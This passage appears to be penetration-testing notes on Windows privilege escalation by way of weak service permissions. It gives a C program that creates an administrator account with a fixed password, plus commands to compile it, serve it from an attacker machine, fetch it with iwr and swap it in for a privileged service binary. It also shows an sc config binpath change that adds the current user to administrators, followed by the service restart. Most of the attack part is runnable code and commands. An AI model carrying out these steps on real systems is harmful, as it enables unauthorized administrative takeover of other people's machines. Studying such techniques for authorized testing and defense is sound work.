 An alternative to **icacls** is **accesschk**:

```powershell
accesschk.exe /accepteula -quvcw WindscribeService
```

### 3. Replacing Service Binary

One way to exploit elevated privileges on a given service is to make a copy of the original file and replace it with a malicious file generated by **msfvenom** or created manually. This way it is possible to get a reverse-shell on the machine, add a new user with elevated privileges or increase the privileges of the current user.

#### Adding a new user

Creating **adduser.c** file on kali to add a new user on the victim machine.

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```

Compiling the file on kali and transferring it to the victim machine.

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

python3 -m http.server 80

powershell 
iwr -uri http://$MIO_IP/adduser.exe -Outfile adduser.exe
move C:\..\path_del_file_con_privilegi_elevati\nomefile.exe nomefile.exe
move .\adduser.exe C:\..\path_del_file_con_privilegi_elevati\nomefile.exe
```

#### Adding the current user to the administrators group

```cmd-session
sc config WindscribeService binpath="cmd /c net localgroup administrators current_user /add"
```

### 4. Restarting the service

For the file to be executed, the service must be **stopped** and **restarted**.

```bash
sc.exe stop Service_Name
sc.exe start Service_Name

# or

net stop Service_Name
net start Service_Name
```
